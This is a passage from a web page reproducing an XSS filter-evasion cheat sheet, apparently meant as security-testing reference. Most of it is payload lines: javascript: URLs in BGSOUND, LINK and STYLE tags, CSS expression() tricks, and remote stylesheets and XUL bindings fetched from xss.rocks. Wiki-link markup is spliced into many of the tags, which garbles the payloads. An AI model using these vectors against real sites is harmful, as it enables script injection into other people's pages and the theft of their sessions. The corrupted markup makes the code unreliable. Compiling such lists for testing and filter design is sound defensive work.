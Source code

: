 ##### [[_content/dictionary#B|BGSOUND]]¶
<BGSOUND [[_content/dictionary#S|SRC]]="javascript:alert('[[_content/dictionary#X|XSS]]');">

##### & [[_content/dictionary#J|JavaScript]] includes¶
<[[_content/dictionary#B|BR]] [[_content/dictionary#S|SIZE]]="&{alert('[[_content/dictionary#X|XSS]]')}">

##### [[_content/dictionary#S|STYLE]] sheet¶
<[[_content/dictionary#L|LINK]] [[_content/dictionary#R|REL]]="stylesheet" [[_content/dictionary#H|HREF]]="javascript:alert('[[_content/dictionary#X|XSS]]');">

#### Remote style sheet¶
Using something as simple as a remote style sheet you can include your [[_content/dictionary#X|XSS]] as the style parameter can be redefined using an embedded expression. This only works in IE. Notice that there is nothing on the page to show that there is included [[_content/dictionary#J|JavaScript]]. Note: With all of these remote style sheet examples they use the body tag, so it won't work unless there is some content on the page other than the vector itself, so you'll need to add a single letter to the page to make it work if it's an otherwise blank page:
<[[_content/dictionary#L|LINK]] [[_content/dictionary#R|REL]]="stylesheet" [[_content/dictionary#H|HREF]]="http://xss.rocks/xss.css">

##### Remote style sheet part 2¶
This works the same as above, but uses a <[[_content/dictionary#S|STYLE]]> tag instead of a <[[_content/dictionary#L|LINK]]> tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end </STYLE> tag if there is [[_content/dictionary#H|HTML]] immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>

##### Remote style sheet part 3¶
This only works in Gecko rendering engines and works by binding an [[_content/dictionary#X|XUL]] file to the parent page.
<[[_content/dictionary#S|STYLE]]>[[_content/dictionary#B|BODY]]{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>

#### [[_content/dictionary#S|STYLE]] Tags that Breaks Up [[_content/dictionary#J|JavaScript]] for [[_content/dictionary#X|XSS]]¶
This XSS at times sends IE into an infinite loop of alerts:
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

#### [[_content/dictionary#S|STYLE]] Attribute that Breaks Up an Expression¶
<[[_content/dictionary#I|IMG]] STYLE="xss:expr/*[[_content/dictionary#X|XSS]]*/ession(alert('XSS'))">

(Created by Roman Ivanov)
#### [[_content/dictionary#I|IMG]] [[_content/dictionary#S|STYLE]] with Expressions¶
This is really a hybrid of the last two [[_content/dictionary#X|XSS]] vectors, but it really does show how hard STYLE tags can be to parse apart. This can send IE into a loop:
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
